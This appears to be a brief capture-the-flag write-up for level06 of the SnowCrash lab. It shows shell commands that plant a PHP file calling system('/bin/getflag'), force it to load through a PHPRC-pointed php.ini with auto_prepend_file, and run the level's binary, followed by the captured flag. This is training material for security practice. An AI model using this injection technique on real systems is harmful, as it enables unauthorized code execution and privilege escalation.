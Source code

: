 # FLAG06

```bash
echo '<?php system("/bin/getflag"); exit; ?>' > /tmp/hack.php
level06@SnowCrash:~$ echo "auto_prepend_file=/tmp/hack.php" > /tmp/myphp.ini
level06@SnowCrash:~$ export PHPRC=/tmp/myphp.ini
level06@SnowCrash:~$ ./level06 
```

getflag -> "wiok45aaoguiboiki2tuin6ub"

